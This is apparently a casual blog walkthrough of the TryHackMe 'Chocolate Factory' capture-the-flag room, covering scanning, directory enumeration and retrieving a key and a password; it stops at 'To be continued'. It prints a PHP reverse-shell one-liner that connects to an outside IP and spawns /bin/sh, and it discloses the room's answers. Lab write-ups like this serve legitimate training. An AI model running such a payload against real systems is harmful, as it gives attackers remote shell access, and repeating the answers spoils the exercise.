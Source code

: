 ```yaml
---
title: "I did the TryHackMe Chocolate Factory Lab, so here is a walkthrough"
date: 2025-8-23
image: https://dvanmosselbeen.github.io/TryHackMe_writeups/chocolatefactory/files/golden-ticket.jpg
layout: post
---
```


I decided to go through the TryHackMe Chocolate Factory room. Here is a walkthrough of what I did.

### Part 1: Getting the key

Question one is to find the answer key as shown below.

![An image of question one on the TryHackMe Website reading: "Enter the answer key you found!"](https://files.catbox.moe/gx15cn.png)

I will start by connecting to the VPN Server with OpenVPN.

This is a screen recording of me doing exactly that

<video controls width="100%">
  <source src="https://files.catbox.moe/lfln6b.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

As you can see it is quite easy to do so even if the AttackBox seems tempting.

I will now start with a simple Nmap scan

![The terminal output of said Nmap scan](https://files.catbox.moe/kcadh3.png)

While nothing interesting, the http port does seem interesting, so let's check it out.

I will need to go to http://10.10.30.125 as that is my given target IP.

![A screenshot of the resulting page](https://files.catbox.moe/z1p7u9.png)

I can't really do anything with this. I tried a few basic credentials like 'Admin' 'Admin' and even tried SQL Injections but nothing. 
Looking at the terminal output I see an FTP service. I will try using the Nmap Banner command command and see the result.

I will now run the following command: nmap --script=banner 10.10.30.125 -p21-125 -v

![here is the output btw :)](https://files.catbox.moe/r7m69l.png)

Well that was a waste of time. All I got is a welcome message :/

Remember the original scan I did. Well I tried every port listed and got an interesting result from port 113 when doing a Netcat scan.

![Idk what to put here 😭](https://files.catbox.moe/l0v4ls.png)

This is great progress from before.

I will go to the following address as in: http://10.10.30.125/key_rev_key

Let's see what happens!

![A prompt for a download from said address :)](https://files.catbox.moe/pwnco2.png)

Well what happens if I extract the file.

![I scrolled down after running: strings key_rev_key](https://files.catbox.moe/34oz92.png)

And there is the answer. Submitting it shows it is correct.

### Charlie's Password

Well if you thought that was it well, you'd be WRONG, that was just the start lol.

I think this might be easier as this is just asking for a password.

![The question btw](https://litter.catbox.moe/1ds4r26y3wr2yeit.png)

Okay, I know there is a http service, could there be any more directories on the server.
I will use Go boster to find out exactly that

gobuster dir -u http://10.10.8.21/ -w /usr/share/dirb/wordlists/common.txt -x php,html,js,txt

And this was the result 

![yes i did steal this image](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/3.png)

Yes, yes I did just steal this image from another write-up 😭

![whyyyyyyy](https://cdn.discordapp.com/attachments/1084461361393836162/1408023721733521499/image0.gif?ex=68ac3047&is=68aadec7&hm=8599790a97e30b9721ac498766c3301dfedd4a11c6f0f7e033b327b8b0fdbf3a&)

I will go to home.php as shown in the (stolen) screenshot I showed.

![idk figure it out](https://litter.catbox.moe/ulorcm72yz628eyo.png)

Ohhhhhhhh this is great progress. A literal command prompt, what more could I possibly ask.

I will try running: whoami

![well idk what this is](https://litter.catbox.moe/fh6ugf4y7plv2b9f.png)

Ok am puzzled at this. I was expecting the username to be something like Charlie. Maybe this is a seperate user environment.

Wait what is this a php payload: php -r '$sock=fsockopen("18.202.129.195",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

Let's run it!

![It is loading smth?](https://litter.catbox.moe/tinuabqig3o9lpl9.png)

Something is loading?

Let's check netcat now

update: I am using a macOS machine so unfortunatly I can't show you my results. I will link the images from another write-up and I will have a link below. If you find a solution feel free to send me a message on Discord, @noah_deyck or email me at brevity.slicer9f@icloud.com

Let's also run Netcat to scan the payload response. 

![Source: CrypticHacker](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/5.png)

and using the shell i found validate.php. Let's open it

![Source: CrypticHacker](https://cryptichacker.github.io/assets/img/tryhackme/chocolatefactory/8.png)

And there is the password, cn7824.

### To be continued










